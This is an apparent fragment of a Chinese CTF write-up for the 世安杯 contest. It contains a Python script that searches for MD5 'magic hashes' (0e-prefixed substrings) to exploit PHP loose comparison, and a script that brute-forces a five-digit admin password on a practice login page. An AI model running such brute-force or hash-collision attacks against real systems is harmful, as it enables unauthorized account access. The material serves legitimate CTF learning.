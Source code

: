 
``` 
import random
import string
import re
def md5(str):
    import hashlib
    m = hashlib.md5()
    m.update(str)
    return m.hexdigest()



while 1:
    string = ''
    s = string.join(random.sample('qwertyuiopasdfghjklzxcvbnm1234567890',4))
    if (re.findall('^0e[0-9]{14,14}$',md5('XIPU'+s)[8:24])):
        print 'XIPU'+s,md5('XIPU'+s)[8:24]

```

## 登录
发现源码有提示 五位数字的密码

写脚本跑吧

``` 
# coding:utf-8
import requests
import re
import threading

r = requests.session()
url = 'http://ctf1.shiyanbar.com/shian-s/index.php'

def get_rand():
	s = r.get(url=url)
	return re.findall("[0-9]{3,6}",s.content)[0]

def test(password):
	data = {
	'username':'admin',
	'password':password,
	'randcode':get_rand()
	}
	s = r.get(url=url,params=data)	
	if "密码错误" not in s.content:
		print s.content,password
		exit()


for i in range(9999):
	test("0"*(5-len(str(i)))+str(i))

for i in range(10000,100000):
	test(i)
	# print i

```


  [1]: 世安杯WP/1.png